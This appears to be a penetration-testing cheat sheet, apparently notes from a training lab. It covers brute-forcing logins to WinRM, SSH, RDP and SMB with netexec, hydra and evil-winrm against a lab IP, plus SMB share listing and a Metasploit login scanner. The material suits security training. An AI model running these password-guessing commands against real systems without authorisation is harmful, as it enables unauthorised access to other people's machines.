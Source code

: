 Services include (but are not limited to) `FTP`, `SMB`, `NFS`, `IMAP/POP3`, `SSH`, `MySQL/MSSQL`, `RDP`, `WinRM`, `VNC`, `Telnet`, `SMTP`, and `LDAP`.


## WinRM

Port TCP : HTTP:`5985`
			HTTPS : `5986`


#### NetExec


1. Protocol Specific Help 
```sh
 netexec smb -h
```

#### Usage

```shell
netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```sh
netexec winrm 10.129.42.197 -u user.list -p password.list
```


#### Evil-WinRM (interaction to the winRm)

```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```

```shell-session
evil-winrm -i 10.129.42.197 -u user -p password
```

If the login was successful, a terminal session is initialized using the [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) (`MS-PSRP`), which simplifies the operation and execution of commands.

November 
## SSH

```shell-session
 hydra -L user.list -P password.list ssh://10.129.42.197
```

## Remote Desktop Protocol (RDP)

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```


## SMB

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```


However, we may also get the following error describing that the server has sent an invalid reply.
This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

```shell-session
netexec smb 10.129.42.197 -u "user" -p "password" --shares
```

Msf Module
```shell-session
msf6 auxiliary(scanner/smb/smb_login) > options 
```



